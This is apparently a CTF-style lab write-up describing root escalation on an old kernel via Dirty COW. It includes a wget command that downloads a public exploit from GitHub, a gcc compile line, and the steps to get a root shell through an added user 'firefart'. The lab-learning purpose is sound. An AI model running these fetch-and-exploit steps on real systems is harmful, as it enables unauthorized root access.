 # Writeup 2 - Unclean Bovine (DirtyCOW)

> This writeup starts from [**Writeup 1**](../writeup1/README.md) once we get any shell capable of compiling some C code

The iso for this project is quite old, its vulnerable to the Dirty COW exploit, a privilege escalation vulnerability that exploits a race condition on the copy-on-write mechanism of older kernels (<4.8.3)

## Preparation

To use this exploit, we first need a shell. we follow the "intended solution" till we have access to a user that can compile and run a C file.  
Here we used user `zaz`.

We just use a [known dirty cow script](https://github.com/firefart/dirtycow) that sets a new user `firefart` as root.

## Running the Exploit

to use this exploit this vulnerability we must compile the copied code as indicated in the exploit's repo:
```
$> wget https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
--2025-04-10 21:22:19--  https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/plain]
Saving to: ‘dirty.c’

dirty.c               100%[=========================>]   4.70K  --.-KB/s    in 0.001s

2025-04-10 21:22:19 (6.90 MB/s) - ‘dirty.c’ saved [4815/4815]
$> gcc -pthread dirty.c -o dirty -lcrypt
```
\*Note: we can't always use `wget` as depending on the network config the machine might not have an internet, if so, we can just paste from the host machine when we use ssh to connect to the machine

we can then run the executable and wait... And after some time, the user firefart is created and we can connect as it, obtaining a root shell - **Congrats us, ~~that was pure talent!!!!~~**
